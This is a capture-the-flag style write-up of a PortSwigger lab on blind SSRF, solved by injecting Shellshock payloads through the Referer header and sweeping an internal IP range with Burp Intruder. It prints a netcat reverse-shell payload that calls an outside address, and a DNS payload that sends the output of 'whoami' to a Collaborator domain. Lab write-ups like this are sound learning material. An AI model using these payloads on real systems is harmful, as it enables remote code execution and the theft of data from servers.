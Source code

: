 Simply identifying a blind [SSRF vulnerability](https://portswigger.net/web-security/ssrf) that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request, the behavior can't be used to explore content on systems that the application server can reach. However, it can still be leveraged to probe for other vulnerabilities on the server itself or on other back-end systems. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

Another avenue for exploiting blind SSRF vulnerabilities is to induce the application to connect to a system under the attacker's control, and return malicious responses to the HTTP client that makes the connection. If you can exploit a serious client-side vulnerability in the server's HTTP implementation, you might be able to achieve remote code execution within the application infrastructure.

## Challenge

--> In this challenge we have to use shellshock payload and get the result of `whoami` by running the exploit internally on `http://192.68.0.x:8080` range

So first i searched about shellshock payload and after reading some docs i found this payload which will get us the reverse shell !

```
() { :; }; /bin/bash -c ‘nc 192.168.234.166 1337 -e /bin/sh’
```

But we can't get reverse shell because this website will only respond to burp collaborator's requests so we have to use something like `nslookup` and after searching i found this payload:

```
() { :;}; nslookup ${whoami}.laz1klz1e1s4rz9hvknib7s5owuoid.burpcollaborator.net
```

Resources:

- https://github.com/opsxcq/exploit-CVE-2014-6271
- https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
- https://www.exploit-db.com/docs/48112

--> And also we will add this in `referrer` header

```
http://192.168.0.0:8080
```

--> Now we will run the intruder attack for this ip and keep doing `poll now` in collaboartor client

![](Attachments/Pastedimage20220222125752.png)

And after running attack i found the username in lookup request.

![](Attachments/Pastedimage20220222125828.png)

And we solved the lab!
